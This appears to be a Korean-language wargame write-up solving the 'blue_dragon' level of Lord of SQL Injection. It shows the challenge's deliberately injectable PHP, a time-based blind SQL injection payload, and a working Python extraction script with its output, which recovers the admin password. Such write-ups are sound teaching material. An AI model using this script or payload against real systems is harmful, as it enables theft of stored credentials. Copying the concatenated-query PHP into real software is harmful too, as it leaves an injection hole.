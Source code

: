```yaml
---
title: "[Lord of SQL Injection] LoS - blue_dragon 문제풀이"
date: 2018-09-09
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


드디어 용 시리즈의 마지막인 `blue_dragon`이다.
내가 바보임을 다시 한 번 깨달을 수 있었던 문제였다.  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------------------
query : select id from prob_blue_dragon where id='' and pw=''
--------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

단순히 필터링만 보자면 `'(싱글쿼터)`와 여태까지 싱글쿼터가 필터링이었을 때 사용했던 `\`을 사용하지 못하도록 되어 있다.
그런데 필터링을 걸어 둔 위치가 좀 다르다.
쿼리를 실행시킨 후에 필터링을 검사하고 이에 대한 결과를 출력한다.

그래서 `'`를 사용한다면 쿼리의 결과를 `Hello admin`의 형태로는 확인할 수 없겠지만, 어찌됬든 쿼리가 실행은 되므로 `Time Based Blind SQL Injection`을 사용할 수 있다.
테스트로 `id=a&pw=' or id='admin' and if(length(pw)>0, sleep(3), 0)#`을 입력 해 보았다.
그랬더니 약 3초 간 지연 후에 내가 입력 한 쿼리와 함께 `No Hack ~_~`을 출력하는 결과 화면을 볼 수 있었다.
정상적으로 쿼리가 동작하므로 pw의 길이와 값을 알아내기 위해 아래와 같이 코드를 구현했다.  

```python
import requests
import time

flag = ""
length = 0

url = "http://los.rubiya.kr/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php?id=a&pw=' or id='admin' and"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		start = time.time()
		query = url + " if(length(pw) = " + str(i) + ", sleep(3), 0)%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if (time.time() - start) > 3:
		length = i
		break	

print "[+] Found length : ", length

print "[+] Find password"
	
for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + " if(substr(pw, " + str(j) + ", 1) = " + hex(i) + ", sleep(3), 0)%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

내 서버가 너무 느려서 도대체 결과가 안나오길래 쿼리가 잘못된 것인가 고민했었다.
그런데 학교 다닐 때 쓰던 동아리 서버에서 돌렸더니 너무 잘돌아간다 ㅎㅎ
서버를 바꾸던가 해야지 원...
어찌됬건 결과는 다음과 같다.

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : D
[+] Found 2 : D9
[+] Found 3 : D94
[+] Found 4 : D948
[+] Found 5 : D948B
[+] Found 6 : D948B8
[+] Found 7 : D948B8A
[+] Found 8 : D948B8A0
[+] Found password :  D948B8A0
[+] End
```

역시나 소문자로 입력 해 주면 문제를 풀 수 있다.  

```plain
?pw=d948b8a0
```

---

```php
---------------------------------------------------------------------------------------------------
query : select id from prob_blue_dragon where id='' and pw='d948b8a0'
---------------------------------------------------------------------------------------------------

BLUE_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

---

```plain
BLUE_DRAGON Clear!!
```